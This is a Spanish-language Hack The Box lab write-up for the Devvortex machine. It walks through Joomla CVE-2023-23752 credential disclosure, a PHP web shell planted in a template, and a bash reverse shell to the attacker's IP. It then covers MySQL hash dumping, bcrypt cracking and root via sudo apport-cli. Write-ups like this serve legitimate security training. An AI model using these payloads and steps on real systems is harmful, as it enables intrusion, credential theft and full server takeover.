# Hack The Box — Devvortex

| OS | Difficulty | Techniques |
|---|---|---|
| Linux | Easy | Subdomain enumeration, Joomla CVE-2023-23752 (information disclosure), webshell via template, hash cracking, sudo abuse (apport-cli) |

## Introducción

## Enumeración
Descubrimos que hay una web corriendo en el puerto 80

```bash
sudo nmap 10.129.229.146 -sC -sV
```

Uso `gobuster` en modo DNS para descubrir los posibles DNS

```bash
gobuster dns -d devvortex.htb --wordlist /usr/share/wordlists/dnsmap.txt
```

Como no funciona correctamente uso FUZZ y encuentro el subdominio `dev`

```
ffuf -u http://devvortex.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.devvortex.htb"
```

Lo agrego al `/etc/hosts` para poder trabajar con el

```bash
echo "10.129.228.37 dev.devvortex.htb" | sudo tee -a /etc/hosts
```

Enumero con `gosbuter` que hay en el subdominio y encuentro un panel de **admin**


Es un panel de admin de Joomla

```
http://dev.devvortex.htb/administrator/
```

Uso recursos que hay públicos en la web para poder descubrir que versión de Joomla es

```bash
curl http://dev.devvortex.htb/administrator/manifests/files/joomla.xml
```
## Pre-Explotación
Al encontrar la version, que es la `4.2.6` veo que hay un CVE asociado `CVE-2023-23752` y busco un exploit para poder sacar las credenciales que posiblemente estuviesen mal configuradas.

```bash
ruby ./exploit.rb http://dev.devvortex.htb
```
## Explotación
Una vez dentro del panel de administración voy a `/templates/cassiopeia/error.php` para montarme una reverse shell, es un buen punto en Joomla ya que es una témplate por defecto

```php
<?php system($_GET['cmd']); ?>
```

Compruebo que la web Shell funcione

```bash
curl "http://dev.devvortex.htb/templates/cassiopeia/error.php?cmd=id"
```

Y mando la reverse

```bash
curl "http://dev.devvortex.htb/templates/cassiopeia/error.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.119/4444+0>%261'"
nc -lvnp 4444
```

Compruebo que tiene corriendo y descubro que tiene una base de datos, es normal ya que se esta corriendo Joomla

```bash
ss -tlnp
```

Entro con el usuario que ya había encontrado

```bash
mysql -u lewis -p
```

Investigo la base de datos de Joomla

```sql
show tables;
```

Listo usuarios y contraseñas

```sql
select name, password from sd4fg_users;
```

Crackeo a logan ya que no tengo sus credenciales con john

```bash
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## Post-Explotación
Listo que permisos tiene logan y descubro un hueco a través de apport-cli
```bash
sudo -l
```

Creo un crash falso para poder sacarme una shell

```bash
sleep 300 &
kill -SIGSEGV $!
ls -la /var/crash/
```

Ejecuto apport-cli

```bash
sudo /usr/bin/apport-cli -c /var/crash/_usr_bin_sleep.1000.crash
```

Veo el reporte

```
V: View report
```

Me aprovecho de las opciones de lectura de Linux y haciendo !/bin/bash me saco una bash como root


```bash
whoami
```
